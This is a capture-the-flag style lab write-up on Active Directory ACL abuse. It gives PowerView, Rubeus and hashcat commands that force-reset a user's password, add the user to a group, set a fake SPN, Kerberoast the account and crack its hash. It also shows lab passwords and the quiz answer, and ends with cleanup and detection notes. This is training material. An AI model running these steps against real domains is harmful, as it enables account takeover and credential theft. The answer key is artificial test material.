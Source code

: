 <div align='center'>

# **Lab 16: ACL Abuse Tactics** 

</div>

## **Change the password of the user (User-Force-Change-Password)**

**Creating a PSCredential Object**

```powershell
$SecPassword = ConvertTo-SecureString 'transporter@4' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword) 
```

**Creating a SecureString Object:** Represents the password we want to set for the target user `damundsen`

```powershell
$damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
```

**Changing the User's Password**
    
```powershell
Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
```

![](../imgs/Lab/Lab16/1.png)

**Creating a SecureString Object using damundsen**

```powershell
$SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
$Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword)
```

## **Add the user to the Help Desk Level 1 group (GenericWrite)**

```powershell
Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose
```

![](../imgs/Lab/Lab16/2.png)

## **Create a Fake SPN for Kerberoasting (GenericAll)**

Modifying the account's servicePrincipalName attribute to create a fake SPN that we can then Kerberoast to obtain the TGS ticket and (hopefully) crack the hash offline using Hashcat

**Creating a Fake SPN**

```powershell
Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```

![](../imgs/Lab/Lab16/3.png)

**Kerberoasting with Rubeus**

```powershell
Rubeus.exe kerberoast /user:adunn /nowrap
```

![](../imgs/Lab/Lab16/4.png)

We get the [hash](../docs/adunn_TGSTicket.txt) for the user `adunn`

**Cracking the Hash**

```zsh
hashcat -m 13100 adunn_tgs /usr/share/wordlists/rockyou.txt
```

![](../imgs/Lab/Lab16/5.png)

We get the password `SyncMaster757`


**Question:**  Work through the examples in this section to gain a better understanding of ACL abuse and performing these skills hands-on. Set a fake SPN for the adunn account, Kerberoast the user, and crack the hash using Hashcat. Submit the account's cleartext password as your answer.

- **Answer**: SyncMaster757

![](../imgs/Lab/Lab16/6.png)

## **Cleanup**

**Removing the Fake SPN from adunn's Account**

```powershell
Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose
```

![](../imgs/Lab/Lab16/7.png)

**Removing damundsen from the Help Desk Level 1 Group**

```powershell
Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose
```

![](../imgs/Lab/Lab16/8.png)

## **Detection and Remediation**

**Remediation:**

- Auditing for and removing dangerous ACLs
- Monitor group membership
- Audit and monitor for ACL changes

**Detection:**

- Viewing Event ID 5136

    `Event ID 5136: A directory service object was modified` which would indicate that the domain object was modified, which could be indicative of an ACL attack


